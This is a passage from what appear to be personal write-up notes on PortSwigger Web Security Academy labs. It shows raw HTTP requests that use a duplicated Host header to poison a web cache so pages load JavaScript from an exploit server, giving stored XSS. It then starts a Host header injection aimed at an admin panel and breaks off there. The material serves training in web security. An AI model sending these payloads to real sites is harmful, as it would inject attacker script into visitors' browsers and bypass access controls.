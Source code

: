 ```http
Cache-Control: max-age=30
Age: 3
X-Cache: hit
```

Poisoned the cache with a custom JavaScript and obtained a stored XSS:

```http
GET / HTTP/1.1
Host: 0a5a00a0035877c0818211aa0074003d.web-security-academy.net
Host: exploit-0a1a00c10309777b81f110ba012e00f3.exploit-server.net


HTTP/1.1 200 OK
Age: 0
X-Cache: miss
...
<script type="text/javascript" src="//exploit-0a1a00c10309777b81f110ba012e00f3.exploit-server.net/resources/js/tracking.js">
...



GET / HTTP/1.1
Host: 0a5a00a0035877c0818211aa0074003d.web-security-academy.net


HTTP/1.1 200 OK
Cache-Control: max-age=30
Age: 6
X-Cache: hit
...
<script type="text/javascript" src="//exploit-0a1a00c10309777b81f110ba012e00f3.exploit-server.net/resources/js/tracking.js">
...
```


### Host Header Injection + Broken Access Control + Authentication Bypass

```http
GET /admin HTTP/2
Host: 0a1800d304d6a33d8095c758009e00c8.web-security-academy.net


HTTP/2 401 Unauthorized
Admin interface only available to local users
```

Injected an arbitrary Host header and exploited a [business logic vulnerability](Business%20logic%20vulnerabilities.md) to bypass the security control ([Authentication Attacks](Authentication%20Attacks.md)):
